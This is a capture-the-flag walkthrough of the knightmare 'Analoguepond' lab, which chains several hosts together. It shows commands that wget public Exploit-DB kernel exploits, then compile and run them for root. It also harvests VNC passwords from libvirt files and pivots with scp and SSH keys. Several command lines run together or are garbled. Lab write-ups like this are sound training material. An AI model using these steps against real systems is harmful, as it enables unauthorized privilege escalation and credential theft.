Good day, today I will Walkthrough Analougepond_1 from knightmare. In order to consider a machine rooted, I need to have the following:
Scan
When nmap finished scanning, I saw an interesting 161 snmp port. Now proceed to enumeration.
{kind=link}
nmap -sU 192.168.2.100With snmp-check, I see that the assumed username is "eric" and "There is a house in New Orleans they call it ..."
{kind=link}
After googling, I find out that the answer to the question was "therisingsun" and now I have a username and password
snmp-check 192.168.2.100eric:therisingsun{kind=link}
Troll flag and 1th root
In order to get root, I will use exploit for kernel 3.19.0-25-generic.
{kind=link}
uname -ahttps://www.exploit-db.com/exploits/39166{kind=link}
wget https://www.exploit-db.com/raw/39166mv 39166 exp.cgcc exp.c -o exp./expAfter privilege escalation, I go to the root folder and find the troll flag.
{kind=link}
VNC passwords
By default, passwords from vnc are stored in the /etc/libvirt folder. In the /quemu folder, I see two xml files in them and there are passwords.
{kind=link}
With grep, I find out what passwords are in the files
{kind=link}
barringsbank.xml:memphistennesseepuppet.xml:sendyoubacktowalkerBased on the file names, we can assume that these are hosts, but where can I find them?
Way to the puppet
In the file /etc/hosts I found the hosts that called the files with passwords from vnc. 
{kind=link}
When connecting to host 192.168.122.2, I see a message that may help me in getting the user.
{kind=link}
From the text we understand that the username is "sandieshaw".Turning to google again. The most famous sandieshaw song is Puppet On A String (https://www.youtube.com/watch?v=uQQtKqF30a8). then we remove the spaces, replace the uppercase letters with lowercase and get the password.
{kind=link}
sandieshaw:puppetonastring2th root and 1th flag
Here we will again apply kernel exploit. This time to kernel version 4.4.0-57-generic.n gcc is not installed on the puppet host, so you will have to compile the exploit on analoguepond and move it using scp.
{kind=link}
wget https://www.exploit-db.com/raw/43418mv 43418 exp2.cgcc exp2.c -o expscp exp2 sandieshaw@192.168.122.2:/tmpchmod +x exp2./tmpТow I can start searching for the flag.
{kind=link}
In the /root folder I find three files: melvin, jim and flag1.txt.0xff. The flag file is hex but when translating it to ascii i got base64 mirrored, after i mirrored base64 and converted to ascii i got the following
https://www.youtube.com/watch?v=GfJJk7i0NTk If this doesn't work, watch Wargames from 23 minutes in, you might find a password there or something...I also found a hidden folder "I_have_you_now" in the final path of which I found two files: my_world_you_are_persistent_try and nlesson_key.gpg
{kind=link}
my_world_you_are_persistent_try:joshuaThe nlesson_key file is encrypted using gpg and I need to find the key. Now I understand what the clue was with the mister potato head. After watching the video from the flag, I realized that the key is the word "secret", backdoors are not a SECRETS.
gpg nlesson_keyAfter decrypting the nlesson_key.gpg file, I received the ssh private authorization key. By the name of the file you can guess that the user name is nlesson
{kind=link}
Way to the barringsbank
During the connection using the authorization key, I entered passsphrase from the my_world_you_are_persistent_try "joshua" file and connected to the nlesson user
{kind=link}
3th root and 2th flag
Exploit from the second host is suitable for rooting the last host since the kernel version is the same for them, so again we turn to scp.
In order to start the exploit I download it on the host 192.168.2.101 then using scp I send the compiled exploit to the host 192.168.122.2 and then to the host 192.168.122.3
{kind=link}
wget https://www.exploit-db.com/exploits/43418mv 43418 2exp.cgcc 2exp.c -o 2expscp 2exp sandieshaw@192.168.122.2:/tmpscp -i /root/.ssh/nleeson_key expoit nlesson@192.168.122.3:/home/nleeson/cd /tmp./exp2In the root user directory, I did not find anything other than the "me.jpeg" picture and after about fifteen minutes I realized that the flag is in the picture. In order to get it from there I will use steghide. I will resort to scp again to deliver the picture to my kali or you can convert it to base64 then copy, transfer to another file in kali and convert file to the the picture.
{kind=link}
passphrase will be the name of the file that I constantly found in users' directories "reticulatingsplines"
reticulatingsplinesAnd this is hex again. in order to decrypt the file I translate hex to ascii and get mirrored base64 then I mirror base64 convert it to a file and decrypt to ascii
{kind=link}
that's all, thanks knightmare it was a very interesting and fascinating machine